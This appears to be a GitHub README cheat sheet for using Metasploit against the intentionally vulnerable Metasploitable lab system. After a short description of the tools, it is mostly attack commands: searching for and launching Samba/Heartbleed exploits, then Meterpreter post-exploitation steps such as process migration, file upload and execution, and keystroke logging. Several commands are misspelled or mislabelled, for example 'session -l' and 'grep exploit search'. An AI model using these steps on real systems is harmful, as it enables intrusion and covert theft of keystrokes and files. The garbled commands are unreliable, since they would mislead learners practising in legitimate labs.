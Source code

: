 # Welcome to Metasploitable

The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. It is owned by Boston, Massachusetts-based security company Rapid7 .[Difference between Metasploit and Metasploitable-Metasploit is a framework within Kali to run attacks on other systems. Metasploitable is a vulnerable system that can be used as a target for attacks and security testing.] msfgui is the Metasploit Framework Graphical User Interface. It provides the easiest way to use Metasploit, whether running locally or connecting remotely, build payloads, launch exploits, control sessions, and keep track of activity as you penetration test or just learn about security.  [ command always case sensitive ]


		
### How to install metasploit ?	
    sudo apt install metasploit-framework	
    
### search heartbleed
	  grep exploit search samba/heartbleed	
    
### 13 is paylod num from grep search
	  use 13	
		
### Set rhost	
    set rhost ip	
		
### show info	
    info	
		
### show payload list	
    show option	
	  exploit/run	
		
## After opening a session		
		
### Inner command	
    meterpreter>  background	
		
	  meterpreter> session -l	
    
### Session number
	  meterpreter>  session -i s_num	
		
	  eog file.jpg	
		
  	meterpreter> migrate id(explore.exe)	
		
	  meterpreter> upload file_name	
		
  	meterpreter> download file_name	
		
	  meterpreter> execute -f file_name	
		
  	meterpreter> keyscan_start	
		
  	meterpreter> keyscan_dump	
    
### if need to stop 
  	meterpreter> keyscan_stop	
		
	  meterpreter> 	
		
  	meterpreter> 	
		
  	meterpreter> 	
		
  	meterpreter> 	
    
    
		
